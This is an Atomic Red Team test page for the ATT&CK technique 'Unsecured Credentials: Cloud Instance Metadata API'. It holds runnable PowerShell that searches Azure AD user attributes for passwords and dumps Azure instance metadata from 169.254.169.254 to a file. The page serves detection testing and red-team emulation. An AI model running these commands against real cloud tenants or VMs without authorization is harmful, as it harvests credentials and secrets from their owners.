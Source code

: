 # T1552.005 - Unsecured Credentials: Cloud Instance Metadata API
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1552/005)
<blockquote>Adversaries may attempt to access the Cloud Instance Metadata API to collect credentials and other sensitive data.

Most cloud service providers support a Cloud Instance Metadata API which is a service provided to running virtual instances that allows applications to access information about the running virtual instance. Available information generally includes name, security group, and additional metadata including sensitive data such as credentials and UserData scripts that may contain additional secrets. The Instance Metadata API is provided as a convenience to assist in managing applications and is accessible by anyone who can access the instance.(Citation: AWS Instance Metadata API) A cloud metadata API has been used in at least one high profile compromise.(Citation: Krebs Capital One August 2019)

If adversaries have a presence on the running virtual instance, they may query the Instance Metadata API directly to identify credentials that grant access to additional resources. Additionally, adversaries may exploit a Server-Side Request Forgery (SSRF) vulnerability in a public facing web proxy that allows them to gain access to the sensitive information via a request to the Instance Metadata API.(Citation: RedLock Instance Metadata API 2018)

The de facto standard across cloud service providers is to host the Instance Metadata API at <code>http[:]//169.254.169.254</code>.
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure - Search Azure AD User Attributes for Passwords](#atomic-test-1---azure---search-azure-ad-user-attributes-for-passwords)

- [Atomic Test #2 - Azure - Dump Azure Instance Metadata from Virtual Machines](#atomic-test-2---azure---dump-azure-instance-metadata-from-virtual-machines)


<br/>

## Atomic Test #1 - Azure - Search Azure AD User Attributes for Passwords
This test uses the MSOnline Powershell module to retrieve all user attributes for a specified account, which can sometimes contain unsecured credentials. 
Upon successful execution, this test will scan all user attributes for any strings containing "password".
Those unsecured credentials will be output to a text file, as well as the account that they are associated with and the user attribute in which they were found. 
See: https://github.com/dafthack/CloudPentestCheatsheets/blob/master/cheatsheets/Azure.md

**Supported Platforms:** Azure-ad


**auto_generated_guid:** ae9b2e3e-efa1-4483-86e2-fae529ab9fb6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | String | |
| password | Azure AD password | String | T1082Az|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
import-module msonline
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-MsolService -Credential $Credential
$users = Get-MsolUser -All;
foreach($user in $users)
{$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; 
foreach($prop in $props)
{if($user.$prop -like "*password*")
{("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop) | out-file -filepath $env:temp\T1552.005Test1.txt -append -force}}}
get-content -path $env:temp\T1552.005Test1.txt -erroraction silentlycontinue
```

#### Cleanup Commands:
```powershell
remove-item $env:temp\T1552.005Test1.txt -force -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The MSOnline module must be installed.
##### Check Prereq Commands:
```powershell
if (get-command Get-MsolUser -erroraction silentlycontinue){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
install-module MSOnline
```




<br/>
<br/>

## Atomic Test #2 - Azure - Dump Azure Instance Metadata from Virtual Machines
This test invokes a web request to the default Instance Metadata API of 169.254.169.254 in order to dump the data contained within it to a file. 
See: https://www.sans.org/blog/cloud-instance-metadata-services-imds-/

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** cc99e772-4e18-4f1f-b422-c5cdd1bfd7b7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | File to output metadata to | String | $env:temp&#92;T1552.005Test2.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance?api-version=2021-02-01" | ConvertTo-Json -Depth 64 > #{output_file}
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -force -erroraction silentlycontinue
```





<br/>
